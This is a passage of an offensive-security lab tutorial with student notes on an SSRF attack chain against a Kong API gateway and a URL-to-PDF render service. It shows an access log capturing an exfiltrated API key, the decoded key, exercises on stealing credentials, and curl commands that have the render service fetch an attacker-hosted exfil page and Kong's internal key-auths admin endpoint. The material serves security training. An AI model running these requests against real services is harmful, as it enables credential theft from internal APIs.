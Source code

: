 kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.135 - - [25/Feb/2021:13:34:24 -0500] "GET /exfil.html HTTP/1.1" 200 569 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.120.135 - - [25/Feb/2021:13:34:24 -0500] "GET /callback?%7B%22next%22%3Anull%2C%22data%22%3A%5B%7B%22created_at%22%3A1613767827%2C%22id%22%3A%22c34c38b6-4589-4a1e-a8f7-d2277f9fe405%22%2C%22tags%22%3Anull%2C%22ttl%22%3Anull%2C%22key%22%3A%22SBzrCb94o9JOWALBvDAZLnHo3s90smjC%22%2C%22consumer%22%3A%7B%22id%22%3A%22a8c78b54-1d08-43f8-acd2-fb2c7be9e893%22%7D%7D%5D%7D HTTP/1.1" 404 491 "http://192.168.118.3/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
Listing 49 - JavaScript callback in access.log

After decoding the data, we find the API key.

{"next":null,"data":[{
  "created_at":1613767827,
  "id":"c34c38b6-4589-4a1e-a8f7-d2277f9fe405",
  "tags":null,
  "ttl":null,
  "key":"SBzrCb94o9JOWALBvDAZLnHo3s90smjC",
  "consumer":{"id":"a8c78b54-1d08-43f8-acd2-fb2c7be9e893"}}]}
Listing 50 - Decoded data

Excellent. Now that we have the API key, we should be able to call the render endpoint through the API gateway without needing the SSRF vulnerability.

Exercises
Recreate the steps above to gain access to the API key.
Without calling the File Import service, recreate the attack to steal credentials from Kong by calling the Render service directly with the API key.
Adjust your HTML payload so the credentials are included in the PDF the service returns.
Extra Mile
Create a web server in your choice of programming language to handle the JavaScript callbacks and automatically URL-decode the data.

1
(Kong Inc, 2021), https://docs.konghq.com/hub/kong-inc/key-auth/#paginate-through-keys ↩︎

Getting api-key by supplying apikey but calling /render directly. API ket is from Kong's admin :
```
curl "http://apigateway:8000/render?url=http://192.168.45.204/exfil.html&apikey=SBzrCb94o9JOWALBvDAZLnHo3s90smjC"
```
pdf contains api-key:
```
curl -v "http://apigateway:8000/render?url=http://172.16.16.2:8001/key-auths&apikey=SBzrCb94o9JOWALBvDAZLnHo3s90smjC" --output y.pdf
```

##### URL to PDF Microservice Source Code Analysis
The Render Service is an open-source URL to PDF microservice.1 The application's documentation includes a warning about the risks of running this application publicly. This application was included in the lab environment and required authentication at the API gateway to simulate some commonly-encountered microservice environments.
